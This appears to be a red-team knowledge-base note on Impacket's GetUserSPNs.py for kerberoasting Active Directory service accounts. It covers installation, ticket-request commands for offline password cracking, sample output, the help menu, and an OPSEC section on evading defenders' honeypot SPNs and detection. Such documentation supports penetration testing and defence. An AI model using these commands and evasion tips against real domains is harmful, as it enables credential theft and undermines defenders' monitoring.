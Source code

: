 ```yaml
---
aliases:
  - impacket-GetUserSPNs
tags:
  - ⚔️Tool
  - T1558003
primary categories:
  - "[[Red Team]]"
  - "[[Penetration Test]]"
secondary categories:
  - "[[Active Directory]]"
  - "[[Credential Harvesting]]"
  - "[[Kerberoasting]]"
  - "[[Post-Exploitation]]"
type: Tool
---
```

# [[GetUserSPNs.py]]

***

## Overview

[`GetUserSPNs.py`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) is a tool from the [Impacket](https://github.com/fortra/impacket) [Python](https://www.python.org/) module collection that automates [kerberoasting](https://attack.mitre.org/techniques/T1558/003/) attacks against user accounts associated with [service principal names (SPNs)](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names) in [Active Directory (AD)](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview)[^1][^2]. If the service account password used to encrypt the returned [ticket-granting service (TGS)](https://csrc.nist.gov/glossary/term/tgs) ticket is weak, an attacker can recover its plaintext password by cracking the TGS hash output from `GetUserSPNs.py`.

## Requirements

* [ ] Attacker is on a \*nix-like machine with access to the target AD network
* [ ] Attacker has valid AD credentials
* [ ] Target user(s) are vulnerable to kerberoasting
	* [ ] Target user object(s) have a non-null  `servicePrincipalName` attribute

## Installation/Compilation

Before installing `GetUserSPNs.py`, ensure Python is installed:
```
# Debian/Ubuntu
sudo apt install python3

# Fedora
sudo dnf install python3
```

The easiest way to install `GetUserSPNs.py` is by installing the Impacket library via `pip`:
```
pip install impacket
```

Alternatively, clone the Impacket repository and install it locally:
```
git clone https://github.com/fortra/impacket.git
cd impacket
pip install .
```

On [Kali Linux](https://www.kali.org/), you can install the [impacket-scripts](https://www.kali.org/tools/impacket-scripts/) package. This makes the tools accessible in your `$PATH`, prefixed with `impacket-`:
```
sudo apt install impacket-scripts

impacket-GetUserSPNs -h
```

## Usage

Kerberoast all vulnerable users in a domain (you will be prompted for a password):
```
GetUserSPNs.py -request -dc-ip <dc-ipv4-address> <domain.full>/<user>
```

Kerberoast all vulnerable users and dump the output to a file:
```
GetUserSPNs.py -request -dc-ip <dc-ipv4-address> -outputfile <filename> <domain.full>/<user>
```

After retrieving a TGS ticket, you can attempt to crack the service account password using [Hashcat](https://hashcat.net/hashcat/) or [John the Ripper](https://www.openwall.com/john/).

## Operational Security (OPSEC)

Requesting TGS tickets for every SPN in a domain will likely raise alerts, especially if one or more SPNs are positioned as [honeypots](https://csrc.nist.gov/glossary/term/honeypot), accounts intentionally configured to detect kerberoasting attempts[^3]. These honeypot SPNs often appear legitimate but are closely monitored.

```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
Password:
ServicePrincipalName          Name         MemberOf  PasswordLastSet            LastLogon  Delegation
----------------------------  -----------  --------  -------------------------  ---------  ---------
MSSQLSvc/sql.domain.com:1433  mssql_svc              XXXX-XX-XX XX:XX:XX.XXXXX  <never>
HoneySvc/fake.domain.com      honey_svc              XXXX-XX-XX XX:XX:XX.XXXXX  <never>
```

If possible, ensure the requesting account appears plausible to a defender. For example, a sales employee requesting a TGS for a [Microsoft SQL Server](https://www.microsoft.com/en-us/sql-server) service is suspicious; using an IT or data steward account would appear more legitimate.

Additionally, avoid requesting all SPNs in bulk. Multiple SPN requests in a short window will appear as anomalous on a defender's radar, possibly leading to detection[^4]. Instead, identify individual accounts vulnerable to kerberoasting using [BloodHound](https://github.com/SpecterOps/BloodHound) or a similar tool, then request TGS tickets for a single target:
```
GetUserSPNs.py -request-user <target-user> -dc-ip <dc-ipv4-address> -outputfile <filename> <domain.full>/<user>
```

TODO: Add discussion about encryption types, the `(servicePrincipalName=*)` LDAP query, and ticket request parameters.

## Under-the-Hood

TODO: Inspect `GetUserSPNs.py` source code, analyze ticket exchanges in [Wireshark](https://www.wireshark.org/), and document detailed function flow.

## Help Menu

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

usage: GetUserSPNs.py [-h] [-target-domain TARGET_DOMAIN] [-no-preauth NO_PREAUTH] [-stealth] [-usersfile USERSFILE] [-request] [-request-user username] [-save] [-outputfile OUTPUTFILE] [-ts] [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k]
                      [-aesKey hex key] [-dc-ip ip address] [-dc-host hostname]
                      target

Queries target domain for SPNs that are running under a user account

positional arguments:
  target                domain[/username[:password]]

options:
  -h, --help            show this help message and exit
  -target-domain TARGET_DOMAIN
                        Domain to query/request if different than the domain of the user. Allows for Kerberoasting across trusts.
  -no-preauth NO_PREAUTH
                        account that does not require preauth, to obtain Service Ticket through the AS
  -stealth              Removes the (servicePrincipalName=*) filter from the LDAP query for added stealth. May cause huge memory consumption / errors on large domains.
  -usersfile USERSFILE  File with user per line to test
  -request              Requests TGS for users and output them in JtR/hashcat format (default False)
  -request-user username
                        Requests TGS for the SPN associated to the user specified (just the username, no domain needed)
  -save                 Saves TGS requested to disk. Format is <username>.ccache. Auto selects -request
  -outputfile OUTPUTFILE
                        Output filename to write ciphers in JtR/hashcat format. Auto selects -request
  -ts                   Adds timestamp to every logging output.
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter. Ignoredif -target-domain is specified.
  -dc-host hostname     Hostname of the domain controller to use. If ommited, the domain part (FQDN) specified in the account parameter will be used
```

***

## Resources

| Hyperlink                                                                                        | Info                                                   |
| ------------------------------------------------------------------------------------------------ | ------------------------------------------------------ |
| [GitHub - Impacket](https://github.com/fortra/impacket)                                          | GitHub repository for Impacket Python class collection |
| [Steal or Forge Kerberos Tickets: Kerberoasting](https://attack.mitre.org/techniques/T1558/003/) | MITRE ATT&CK entry for "Kerberoasting"                 |

[^1]: https://youtu.be/PUyhlN-E5MU
[^2]: https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1
[^3]: https://adsecurity.org/?p=3513
[^4]: https://research.splunk.com/endpoint/eb3e6702-8936-11ec-98fe-acde48001122/

***

*Created Date*: <%+tp.file.creation_date("MMMM Do YYYY (HH:mm a)")%>  
*Last Modified Date*: <%+tp.file.last_modified_date("MMMM Do YYYY (HH:mm a)")%>
